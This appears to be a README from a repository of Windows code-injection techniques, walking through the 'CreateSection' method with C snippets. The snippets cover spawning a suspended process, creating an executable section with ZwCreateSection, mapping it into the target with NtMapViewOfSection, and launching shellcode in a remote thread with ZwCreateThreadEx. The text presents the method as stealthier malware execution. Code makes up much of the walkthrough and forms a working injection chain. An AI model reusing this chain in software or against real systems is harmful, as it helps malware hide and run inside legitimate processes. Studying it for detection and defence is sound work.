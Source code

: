 # Overview

This method is focused on creating a new section which holds arbitrary code.

This executable section will be populated with arbitrary code which will run simultaneously with the main thread of the target application.
This technique is stealthier than the `CreatePatched` one since there are no apperent signs of malware being executed.
For demonstration purposes, the target process will be manually created since we do not want to inject into already running applications in our system.

For the sake of clarity, from now on the executable that is injecting the code will be referred as **injector** process while the application which will be attacked
will be the **target** process.

# Process creation

The first thing that has to be done is to create a legit process with [`CreateProcess()`][CreateProcess]. This is accomplished in this way: 
[(source)](CreateSection.cpp#L99-L113)
```c
if (!CreateProcessW((LPWSTR)app_path, // lpApplicationName
                      NULL,             // lpCommandLine
                      NULL,             // lpProcessAttributes
                      NULL,             // lpThreadAttributes
                      NULL,             // bInheritHandles
                      CREATE_SUSPENDED | DETACHED_PROCESS |
                          CREATE_NO_WINDOW, // dwCreationFlags
                      NULL,                 // lpEnvironment
                      NULL,                 // lpCurrentDirectory
                      &si,                  // lpStartupInfo
                      &pi                   // lpProcessInformation
                      )) {
    DBG_ERROR(("CreateProcess failed with error 0x%x\n", GetLastError()));
    return -1;
  }
```
Note the `CREATE_SUSPENDED` flag stops the application from starting automatically after the function call.
If the operation succeeds, the `pi` structure will contain all the information about the newly spawned process.

The execution of the application will be resumed later.

# Section creation 

It is now time to create the executable section. It will not be bind to any process, yet.
[(source)](CreateSection.cpp#L119-L124)
```c
  if ((status = ZwCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &maxSize,
                                PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) !=
      STATUS_SUCCESS) {
    DBG_ERROR(("ZwCreateSection failed, status : %x\n", status));
    return -1;
  }
```
There are several important variables being passed to [`ZwCreateSection()`][ZwCreateSection]: `&hSection`, `SECTION_ALL_ACCESS` and `PAGE_EXECUTE_READWRITE`.

* `hSection` is the section handle: it will represent our new section.

* `SECTION_ALL_ACCESS` is a bitwise flag which basically grants every permission to the section.

* `PAGE_EXECUTE_READWRITE` makes the section's memory page readable, writeable and **executable**.

# Memory mapping

In order to write into the section, we will have to map a view, a whole or partial mapping of a section object, in the virtual address space of a process.

![MapSection]

The first step is to bind the section to the **injector** process' context in order to copy the shellcode in it. This is done with [`NtMapViewOfSection()`][NtMapViewOfSection]: its
second parameter, in this case the `HANDLE` returned by [`GetCurrentProcess()`][GetCurrentProcess], defines in which process' the section will be mapped.
[(source)](CreateSection.cpp#L128-L134)
```c
  if ((status = NtMapViewOfSection(hSection, GetCurrentProcess(),
                                   &sectionBaseAddress, NULL, NULL, NULL,
                                   &viewSize, inheritDisposition, NULL,
                                   PAGE_EXECUTE_READWRITE)) != STATUS_SUCCESS) {
    DBG_ERROR(("NtMapViewOfSection failed, status : %x\n", status));
    return -1;
  }
```
Once the shellcode has been copied, we can proceed to map the section into the **target** process.
[(source)](CreateSection.cpp#L142-L148)
```c
  if ((status =
           NtMapViewOfSection(hSection, pi.hProcess, &sectionBaseAddress2, NULL,
                              NULL, NULL, &viewSize, inheritDisposition, NULL,
                              PAGE_EXECUTE_READWRITE)) != STATUS_SUCCESS) {
    DBG_ERROR(("NtMapViewOfSection failed, status : %x\n", status));
    return -1;
  }
```
Finally, we have to unmap the view from the **injector**. The section handle `hSection` is closed and set to `NULL` afterwards.
[(source)](CreateSection.cpp#L152-L154)
```c
ZwUnmapViewOfSection(GetCurrentProcess(), sectionBaseAddress);
ZwClose(hSection);
hSection = NULL;
```

# Shellcode execution

The last thing to check out is the actual shellcode execution. This can be achieved by creating, and later starting, a new thread which points
to the section containing the shellcode.
[(source)](CreateSection.cpp#L158-L167)
```c
  if ((status = ZwCreateThreadEx(&threadHandle, 0x1FFFFF, NULL, pi.hProcess,
                                 sectionBaseAddress2, NULL, CREATE_SUSPENDED, 0,
                                 0, 0, 0)) != STATUS_SUCCESS) {
    DBG_ERROR(("ZwCreateThreadEx failed, status : %x\n", status));
    return -1;
  }
  DBG_SUCC(("Thread created. PID = %p\n", threadHandle));
  DBG_INFO(("Resuming threads...\n"));

  ResumeThread(pi.hThread);   // main Thread of calc.exe
  ResumeThread(threadHandle); // injection
```

# Resources

* [Source](CreateSection.cpp)
* [Header](CreateSection.h)

[MapSection]: ../resources/MapSection.png?raw=true
[CreateProcess]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx
[GetCurrentProcess]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms683179(v=vs.85).aspx
[VirtualProtectEx]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366899(v=vs.85).aspx
[ZwCreateSection]: https://msdn.microsoft.com/en-us/library/windows/hardware/ff566428(v=vs.85).aspx
[NtMapViewOfSection]: https://msdn.microsoft.com/en-us/library/windows/hardware/ff556551(v=vs.85).aspx